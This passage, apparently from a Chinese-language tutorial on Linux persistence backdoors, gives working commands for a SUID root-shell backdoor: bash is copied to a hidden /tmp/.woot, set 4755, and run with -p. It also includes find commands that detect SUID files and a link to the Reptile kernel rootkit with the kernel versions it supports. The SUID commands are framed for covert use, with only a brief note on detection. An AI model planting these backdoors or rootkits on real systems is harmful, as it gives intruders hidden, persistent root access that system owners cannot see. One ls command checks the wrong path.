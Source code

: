 ### 0x02 SUID 后门

当一个文件所属主的 x 标志位 s(set uid 简称 suid) 时，且所属主为 root 时，当执行该文件时，其实是以 root 身份执行的。必要条件：

```
1、SUID权限仅对二进制程序有效。 
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效  
4、在执行过程中执行者将具有该程序拥有者的权限


```

创建 suid 权限的文件：

```
$cp /bin/bash /tmp/.woot
$chmod 4755 /tmp/.woot
$ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot


```

使用一般用户运行：

```
$/tmp/.woot 
$/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell


```

检测：查找具有 suid 权限的文件即可

```
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null


```

### 0x03 LKM Linux rootkit 后门

项目地址:[https://github.com/f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

适用的系统:

```
Debian 9：4.9.0-8-amd64 
Debian 10：4.19.0-8-amd64 
Ubuntu 18.04.1 LTS：4.15.0-38-generic 
Kali Linux：4.18.0-kali2-amd64 
Centos 6.10：2.6.32- 754.6.3.el6.x86_64 
Centos 7：3.10.0-862.3.2.el7.x86_64 
Centos 8：4.18.0-147.5.1.el8_1.x86_64


```
